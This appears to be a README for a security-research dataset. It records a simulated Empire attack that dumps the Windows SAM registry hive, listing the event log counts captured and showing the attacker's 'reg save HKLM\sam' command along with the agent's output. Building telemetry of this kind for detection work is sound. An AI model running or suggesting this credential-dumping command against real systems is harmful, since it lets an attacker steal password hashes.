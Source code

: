 # Empire Reg Dump SAM

An adversary with administrator privileges can use the windows reg utility to dump the SAM registry hive.

## Technique(s) ID

T1003

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_reg_dump_sam.tar.gz](./empire_reg_sam.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-19022540

## About this file

| log_name                                 | source_name                         | task                                                   |   record_number |
|------------------------------------------|-------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | PowerShell                          | Pipeline Execution Details                             |             186 |
| Security                                 | Microsoft-Windows-Security-Auditing | Filtering Platform Connection                          |             339 |
| Security                                 | Microsoft-Windows-Security-Auditing | User Account Management                                |              74 |
| Security                                 | Microsoft-Windows-Security-Auditing | Token Right Adjusted Events                            |              49 |
| Security                                 | Microsoft-Windows-Security-Auditing | Process Creation                                       |               8 |
| Security                                 | Microsoft-Windows-Security-Auditing | Logoff                                                 |               7 |
| Security                                 | Microsoft-Windows-Security-Auditing | Sensitive Privilege Use                                |               7 |
| Security                                 | Microsoft-Windows-Security-Auditing | Authorization Policy Change                            |               6 |
| Security                                 | Microsoft-Windows-Security-Auditing | Group Membership                                       |               5 |
| Security                                 | Microsoft-Windows-Security-Auditing | Logon                                                  |               5 |
| Security                                 | Microsoft-Windows-Security-Auditing | Special Logon                                          |               5 |
| Security                                 | Microsoft-Windows-Security-Auditing | Process Termination                                    |               4 |
| Security                                 | Microsoft-Windows-Security-Auditing | Detailed File Share                                    |               2 |
| Security                                 | Microsoft-Windows-Security-Auditing | Other Object Access Events                             |               1 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Image loaded (rule: ImageLoad)                         |             354 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Process accessed (rule: ProcessAccess)                 |             278 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Network connection detected (rule: NetworkConnect)     |             114 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Registry object added or deleted (rule: RegistryEvent) |              69 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Pipe Connected (rule: PipeEvent)                       |              24 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | File created (rule: FileCreate)                        |              22 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Process Create (rule: ProcessCreate)                   |               7 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Registry value set (rule: RegistryEvent)               |               4 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-PowerShell/Operational | Microsoft-Windows-PowerShell        | Executing Pipeline                                     |             153 |
| Microsoft-Windows-DNS-Client/Operational | Microsoft-Windows-DNS-Client        | na                                                     |             377 |

## Attacker Activity

```
shell reg save HKLM\sam sam
```

```
[*] Tasked FD6A3MGY to run TASK_SHELL
[*] Agent FD6A3MGY tasked with task ID 8
(Empire: FD6A3MGY) > ..Command execution completed.

(Empire: FD6A3MGY) >
```